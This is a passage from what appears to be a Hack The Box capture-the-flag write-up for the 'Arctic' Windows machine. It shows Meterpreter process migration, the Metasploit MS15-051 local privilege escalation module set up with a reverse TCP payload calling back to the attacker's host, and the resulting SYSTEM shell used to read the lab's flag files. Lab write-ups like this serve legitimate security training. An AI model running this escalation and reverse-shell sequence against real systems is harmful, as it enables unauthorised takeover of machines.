 <br>2920&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>3032&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>3172&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;msdtc.exe                                             
 <br>3180&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>3320&nbsp;&nbsp;2892&nbsp;&nbsp;EKieCvWfF.exe                                         
 <br>3356&nbsp;&nbsp;336&nbsp;&nbsp;&nbsp;powershell.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>3664&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe</p>

<p>meterpreter > migrate 2320
<br><font color="RoyalBlue">[*]</font> Migrating from 3356 to 2320...
<br><font color="RoyalBlue">[*]</font> Migration completed successfully.
<br>meterpreter > sysinfo
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x64/windows
<br>meterpreter ></p>
</div>
</font>
<br>We successfully migrated to a x64 process and now we can proceed to epxloit to get system level access.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > background 
<br><font color="RoyalBlue">[*]</font> Backgrounding session 2...
<br>msf exploit(<font color="red">handler</font>) > use exploit/windows/local/ms15_051_client_copy_image 
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set SESSION 2
<br>SESSION => 2
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set payload windows/x64/meterpreter/reverse_tcp
<br>payload => windows/x64/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set target 1
<br>target => 1
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Launching notepad to host the exploit...
<br><font color="53E100">[+]</font> Process 3300 launched.
<br><font color="RoyalBlue">[*]</font> Reflectively injecting the exploit DLL into 3300...
<br><font color="RoyalBlue">[*]</font> Injecting exploit into 3300...
<br><font color="RoyalBlue">[*]</font> Exploit injected. Injecting payload into 3300...
<br><font color="RoyalBlue">[*]</font> Payload injected. Executing exploit...
<br><font color="53E100">[+]</font> Exploit finished, wait for (hopefully privileged) payload execution to complete.
<br><font color="RoyalBlue">[*]</font> Sending stage (1189423 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 3 opened (10.10.*.*:444 -> 10.10.10.11:49272) at 2017-12-30 04:25:47 -0500</p>

<p>meterpreter > getuid 
<br>Server username: NT AUTHORITY\SYSTEM
<br>meterpreter > shell
<br>Process 3652 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 6.1.7600]
<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.</p>

<p>C:\ColdFusion8\runtime\bin>cd /
<br>cd /</p>

<p>C:\>cd users
<br>cd users</p>

<p>C:\Users>cd tolis/Desktop
<br>cd tolis/Desktop</p>

<p>C:\Users\tolis\Desktop>type user.txt
<br>type user.txt
<br><font color="53E100">********************************</font></p>

<p>C:\Users>cd administrator
<br>cd administrator</p>

<p>C:\Users\Administrator>cd Desktop
<br>cd Desktop</p>

<p>C:\Users\Administrator\Desktop>type root.txt
<br>type root.txt
<br><font color="53E100">*******************************</font></p>

</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
